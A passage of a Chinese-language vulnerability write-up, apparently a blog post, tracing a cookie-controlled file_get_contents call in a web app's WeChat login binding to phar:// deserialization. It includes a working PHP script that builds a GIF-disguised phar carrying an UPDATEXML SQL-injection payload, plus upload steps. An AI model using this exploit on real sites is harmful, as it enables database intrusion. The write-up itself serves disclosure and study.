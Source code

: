![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRadEnJ9lql4f3yiaoQUySQTjPCmEo7LDmSydzX6FXVicD0hrktS0tgBP8Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRadibCSqquVIz4Lcaz1zzxk4XJbORcIop7hALvaKruKVYgibxgCZINEWvA/640?wx_fmt=png)

找到了数据库 **users_weixin** 表,**headimgurl** 对应 **$access_user['headimgurl']**，并且 **$access_user** 为函数被调用时传入的参数，继续找哪里调用了 **bind_account** 方法

在**./app/m/weixin.php**

**![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRa17nE4VB8bXxw91cD9N7PqnsgYiaQsFC7KnmCFcRhWaCfYia6F51QbR4w/640?wx_fmt=png)**

$WXConnect 的值来源于 COOKIE，而 **$access_user** 来源于 **$WXConnect['access_user']**，而 cookile 是可控的,**file_get_contents** 有了完全可控的参数, 我们就可以利用 phar:// 协议触发反序列化

**漏洞利用**

注册一个账号

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaHh38FhUqC7AQLAOQxGkQoDDATXAaUIkSibqLJDPhNR3dr4hM9xVFvxw/640?wx_fmt=png)

选择发起一个问题, 并上传一个图片

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaR0iaqtEt8HEr4jj4T4zF2BB6vOhJFt4YMWibcLiapCNpRGrXDHgUyMq9g/640?wx_fmt=png)

上传一个 phar 文件, 但改后缀为 gif

```
<?php
class AWS_MODEL{
private $_shutdown_query = array();


public function __construct(){
$this->_shutdown_query['test'] = "SELECT UPDATEXML(1, concat(0xa, user(), 0xa), 1)";
}
}
$a = new AWS_MODEL;
$phar = new Phar("11.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."__HALT_COMPILER();");
$phar->setMetadata($a);
$phar->addFromString("test.txt","123");
$phar->stopBuffering();
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRagwPIYJPLyaXUnYbgnx9YUia1KlcuLNDHrrpTUIr4cMyA25icYaTb7WHw/640?wx_fmt=png)

上传到服务器

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaf9Q7t3rYS2m36UDLTKnuRCDKiciaHmja1HYmsT5fyousl0o5hia7Yiczzw/640?wx_fmt=png)

 这里会返回绝对路径
